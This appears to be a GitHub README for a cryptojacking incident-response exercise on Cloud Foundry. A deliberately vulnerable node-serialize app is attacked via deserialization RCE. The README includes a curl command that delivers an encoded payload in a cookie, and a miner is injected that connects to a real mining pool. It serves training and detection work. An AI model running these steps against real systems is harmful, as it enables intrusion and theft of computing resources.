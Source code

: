 ## A cryptojacking incident response excercise for Cloud Foundry

This was inspired by, and originally forked from, code in https://github.com/mfdii/miner-blog, by [Michael Ducy](https://twitter.com/mfdii). That code accompanies [this blog post](https://sysdig.com/blog/detecting-cryptojacking-with-sysdigs-falco/), on Detecting Cryptojacking with Sysdig's [Falco](https://github.com/draios/falco).

I munged it for use in an incident response exercise with Cloud Foundry. It uses an Immediately-Invoked Function Expression attack on a NodeJS application to run arbitrary code in a container. The vulnerable application is in `node-exploitable/`, and relies on [node-serialize 0.0.4](https://github.com/luin/serialize) which has a [known, unpatched, 2017 CVE](https://www.cvedetails.com/vulnerability-list/vendor_id-16128/product_id-36008/version_id-208749/Node-serialize-Project-Node-serialize-0.0.4.html). As a result, I see this 
![warning in GitHub](./node-serialize-warning.png):

> ⚠️ We found a potential security vulnerability in one of your dependencies. A dependency defined in node-exploitable/package-lock.json has known security vulnerabilities and should be updated.

Clearly I'm not updating it or the whole exercise won't work.

For this scenario, I injected a `miner/`, which uses a [Node stratum-client](https://github.com/arnabk/stratum-client) to connect to a mining pool over port 3333, then it simulated mining activity by running [bcrypt](https://github.com/dcodeIO/bcrypt.js) to burn CPU.

I also experimented with using [cpulimit](https://github.com/opsengine/cpulimit), so the linked executable for Ubuntu 14.04 is in `miner/cl`.

Lastly, I thought I'd make things even harder by having other Node apps that just happened to a lot of CPU for every web request in `node-decoy/`.

## Local demo

Window 1:

```bash
cd ./node-exploitable
npm install
npm start
...
```

Window 2:

```bash
payload=$(printf "ls -l /" | ./nodejspayload.py | base64)
curl -b "profile=$payload" -vs http://localhost:8000
```

Window 1 should then show the `ls -l /` results for the server

### Cloud Foundry demo

Push the expoitable client:

```bash
cd ./node-exploitable
cf push
cf logs hello-iife
```

Then run the exploit (which injects the code in `inject-code`):

```bash
./exploit-it.sh
```

Then `cf ssh hello-iife`. You should see the code in `/tmp/miner` and that `lsof -i` shows a connection to the mining pool.

```
node      160 vcap   10u  IPv4 22662477      0t0  TCP 1cefe2b8-25f0-418b-4e92-96da:53330->pool1.grlcgang.com:3333 (ESTABLISHED)
```

Meanwhile, `cf app hello-iife` should show one of the two instances burning a lot of CPU:

```
type:           web
instances:      2/2
memory usage:   64M
     state     since                  cpu     memory         disk
#0   running   2018-08-15T14:04:37Z   97.9%   54.6M of 64M   78.2M of 256M
#1   running   2018-08-15T14:04:37Z   0.0%    35.2M of 64M   72.5M of 256M
```